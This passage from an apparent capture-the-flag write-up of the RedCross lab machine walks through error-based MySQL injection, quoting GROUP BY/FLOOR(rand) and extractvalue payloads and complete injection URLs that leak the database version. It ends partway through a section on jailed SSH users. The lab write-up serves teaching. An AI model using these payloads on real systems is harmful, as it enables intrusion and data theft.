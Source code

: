 

This statement is going to create an error condition because of how
`GROUP BY` requires unique values. [This
video](https://www.youtube.com/watch?v=2UUWowboSfA) walks through that
in more detail, and here's [another post describing this kind of
error](https://hydrasky.com/network-security/error-based-sql-injection-attack/).

NETSPI has a [list of error based
injections](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql)
that gives a simplified version of that query:



    SELECT 1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM USERS LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)



If I visit
`https://intra.redcross.htb/?o=1') and (select 1 from (Select count(*),Concat((version()),0x3a,floor(rand (0) *2))y from information_schema.tables group by y) x)-- -&page=app`,
I get the db version back:

![](/img/1555090092657.png)

Note, the ":1" at the end is not part of the version, but rather the
result of the `concat` in the injection and the rand that causes the
error.

The NETSPI list has a simpler version that uses XML Parse Errors. Their
example is:



    SELECT extractvalue(rand(),concat(0x3a,(select version())))



Playing around with that a bit to get it to work, I can get a version
out of the page by going to:

`https://intra.redcross.htb/?page=app&o=1' and extractvalue(0x0a,concat(0x0a,(version()))) and 1)'`:

![](/img/1555090646456.png)

### Jail Config

I'll notice that the php code uses the following query to the database
to create a user:



    "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')"



The group is set to 1001, and the homedir is set to `/var/jail/home`.

When I ssh in as one of these users, I can see group 1001 is associates:

